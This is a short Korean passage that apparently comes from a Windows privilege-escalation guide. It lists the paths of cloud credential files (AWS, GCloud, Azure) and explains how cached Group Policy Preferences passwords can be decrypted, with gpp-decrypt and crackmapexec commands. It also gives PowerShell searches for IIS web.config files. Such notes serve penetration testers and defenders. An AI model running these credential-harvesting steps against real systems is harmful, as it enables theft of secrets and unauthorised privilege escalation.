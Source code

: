 ### 클라우드 자격 증명
```bash
#From user home
.aws\credentials
AppData\Roaming\gcloud\credentials.db
AppData\Roaming\gcloud\legacy_credentials
AppData\Roaming\gcloud\access_tokens.db
.azure\accessTokens.json
.azure\azureProfile.json
```
### McAfee SiteList.xml

**SiteList.xml**라는 파일을 검색하세요.

### Cached GPP Pasword

이전에는 Group Policy Preferences (GPP)를 통해 여러 머신에 사용자 지정 로컬 관리자 계정을 배포할 수 있는 기능이 제공되었습니다. 그러나 이 방법에는 심각한 보안 결함이 있었습니다. 첫째, SYSVOL에 XML 파일로 저장된 Group Policy Objects (GPOs)는 모든 도메인 사용자가 접근할 수 있었습니다. 둘째, 공개적으로 문서화된 기본 키를 사용하여 AES256으로 암호화된 이러한 GPP 내의 비밀번호는 인증된 사용자가 복호화할 수 있었습니다. 이는 사용자가 권한 상승을 얻을 수 있는 심각한 위험을 초래했습니다.

이 위험을 완화하기 위해, 비어 있지 않은 "cpassword" 필드를 포함하는 로컬 캐시된 GPP 파일을 스캔하는 기능이 개발되었습니다. 이러한 파일을 찾으면, 해당 기능은 비밀번호를 복호화하고 사용자 지정 PowerShell 객체를 반환합니다. 이 객체에는 GPP 및 파일의 위치에 대한 세부 정보가 포함되어 있어 이 보안 취약점을 식별하고 수정하는 데 도움이 됩니다.

`C:\ProgramData\Microsoft\Group Policy\history` 또는 _**C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\history** (W Vista 이전)_에서 이러한 파일을 검색하세요:

* Groups.xml
* Services.xml
* Scheduledtasks.xml
* DataSources.xml
* Printers.xml
* Drives.xml

**cPassword를 복호화하려면:**
```bash
#To decrypt these passwords you can decrypt it using
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
Using crackmapexec to get the passwords:  
비밀번호를 얻기 위해 crackmapexec 사용:
```bash
crackmapexec smb 10.10.10.10 -u username -p pwd -M gpp_autologin
```
### IIS 웹 구성
```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

